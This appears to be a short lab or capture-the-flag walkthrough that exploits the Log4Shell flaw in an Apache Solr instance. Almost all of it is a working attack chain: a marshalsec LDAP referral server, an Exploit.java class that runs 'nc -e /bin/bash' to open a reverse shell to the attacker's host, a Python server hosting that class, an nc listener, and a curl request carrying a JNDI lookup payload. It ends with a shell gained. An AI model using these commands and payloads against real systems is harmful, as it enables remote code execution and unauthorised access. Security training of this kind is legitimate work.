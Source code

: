 To build marshalsec run the command in marshalsec folder.

```bash 
$ mvn clean package -DskipTests
```

LDAP referral server to direct connections to our secondary HTTP server setup command (run in marshalsec folder)

```bash 
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.21:9999/#Exploit"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

LDAP server runnign on port 1389

Create a java payload for reverse connection ```Exploit.java```

```java 
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.21 9090");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Serve it on same port we used to start LDAP Ref Server 

```bash 
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/)
```

Start Listener using nc 

```bash 
$ nc -nlvp 9090
```

calling the payload using curl command 

```bash
$ curl '10.10.226.102:8983/solr/admin/cores?cmd=$\{jndi:ldap://10.9.1.21:1389/Exploit\}'

{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```

Woohoo!!!! Got Shell 
